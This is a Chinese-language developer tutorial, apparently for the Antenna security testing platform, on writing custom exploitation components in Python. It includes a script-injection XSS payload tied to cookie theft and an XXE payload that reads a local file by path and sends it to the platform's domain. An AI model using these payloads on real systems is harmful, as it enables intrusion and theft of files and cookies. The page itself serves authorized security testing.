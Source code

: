```yaml
---
sidebar_position: 2
---
```


# 如何实现自己的自定义组件
终于来到我们最希望让你看到的篇章，如果你认为我们的Antenna提供的组件并不能
完全你的需求，特别是不满意我们系统提供的少得可怜的组件，那我们建议你不如自己
动手制作满足你需求的组件

## 自定义利用组件模板 
首先看一下组件基础类代码
```python

class BaseTemplate:
    info = [{
        "template_info": {
            "name": "",  # 组件名
            "title": "",  # 组件展示标题名
            "author": "",  # 组件作者
            "type": 0,  # 组件类型，1是监听0是利用
            "desc": "",  # 组件介绍
            "desc_url": "",  # 组件使用说明链接
            "choice_type": 1,  # 组件选择类型0是单选，1是多选
            "payload": "</tExtArEa>\'\"><sCRiPt sRC=//{domain}/{key}></sCrIpT>",  # 组件实例生成后展示的模板
            "file_name": "xss.py"  # 代码文件名
        },
        "item_info": [{
            "name": "xss_get_cookie",  #组件配置名
            "config": [],       # 组件配置是否需要外界用户填写参数值
        },
            {
                "name": "xss_get_page_code",
                "config": [],
            }
        ]
    }]

    def __init__(self):
        self.ip = SERVER_IP
        self.domain = PLATFORM_DOMAIN

    def run(self, key):
        task_config_item = TaskConfigItem.objects.filter(task_config__key=key)
        if task_config_item:
            config = [{"name": i.template_config_item.name, "config": i.value, }
                      for i in
                      task_config_item]
        else:
            config = []
        return self.generate(key, config)

    
    def replace_code(self, code=""):
        """
        替换code
        """
        code_ = code.replace("{{domain}}", self.domain).replace("{{key}}", self.key)
        return code_
    
    @abstractmethod
    def generate(self, key, config):
        pass

```
由于利用组件的作用在于返回一些能够触发漏洞的响应内容，所以只需要调用gengerate方法选择使用的匹配使用组件就好啦，基类会提供给平台的**IP**与**域名**
方便各位使用
那让我们尝试创建一个XXE 读取文件的组件吧
## 开发XXE组件
### 组件信息配置 Template_info
```python
class XxeTemplate(BaseTemplate):
    info = [{
        "template_info": {
            "name": "XXE",  # 组件名
            "title": "XXE漏洞利用组件",  # 组件展示标题名
            "author": "bios000",  # 组件作者
            "type": 0,  # 组件类型，1是监听0是利用
            "desc": "",  # 组件介绍
            "desc_url": "",  # 组件使用说明链接
            "choice_type": 1,  # 组件选择类型0是单选，1是多选
            "payload": """<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE ANY [
<!ENTITY % xd SYSTEM "http://{domain}/{key}">
    %xd;
]>
<root>&bbbb;</root>""",
            "file_name": "xxe.py"
        },
        "item_info": [{
            "name": "xxe_read_file",
            "config": ["path"],
        }],
    }]
```
按照XXE的漏洞特性，填写组件相关配置信息， 其中需要说明的是item_info相关信息
```json
"item_info": [{
            "name": "xxe_read_file",
            "config": ["path"],
        }],
```
由于我们想实现一个读取文件的功能，而且也需要用户输入他们想读取的文件路径,所以这里在config中加入一个自定义参数**path**，提供给用户使其输入
当然你想叫**abc** 也可以，不过我们建议使用用户可以容易明白的名字。

### 逻辑方法 xxe_read_file
```python
    def xxe_read_file(self, item):
        """
        读取文件
        """
        read_file_code = """<!ENTITY % aaaa SYSTEM "file://{{path}}">
<!ENTITY % demo "<!ENTITY bbbb SYSTEM 'http://{{domain}}/{{key}}?message=%aaaa;'>">
%demo;
        """
        code = read_file_code.replace("{{domain}}", self.domain).replace("{{key}}", self.key).replace("{{path}}", item[
            "config"]["path"])
        
        return code
```
这里注意你的方法名需要与之前template_info中item的name保持一致，不然平台接收到组件生成实例的请求后并不能准确的找到你写的逻辑方法
，由于我们的组件生成实例，其中 **{{domain}}**和**{{key}}**在执行中将替换成平台的域名以及该组件创建实例后生成的key，**{{path}}** 会替换为你需要用户输入读取文件参数的值

### 平台接收后如何寻找到你的组件模板-generate
```python
def generate(self, key, config):
        code = ''
        self.key = key
        try:
            for i in config:
                item_name = i["name"]
                for name in self.__dir__():
                    if name == item_name:
                        code = code + getattr(self, name)(i)
            return HttpResponse(code, content_type='application/xhtml+xml')
        except Exception as e:
            import traceback
            traceback.print_exc()
            return Response({'status': 'false', 'message': '操作失败'})
```
gengerate方法通过所搜该类中所有的方法名来判断该执行哪个符合用户需求的返回资源逻辑
然后将资源以http的形式返回，注意我们的content_type需要改成xml格式
这样一个简单的组件就写好了
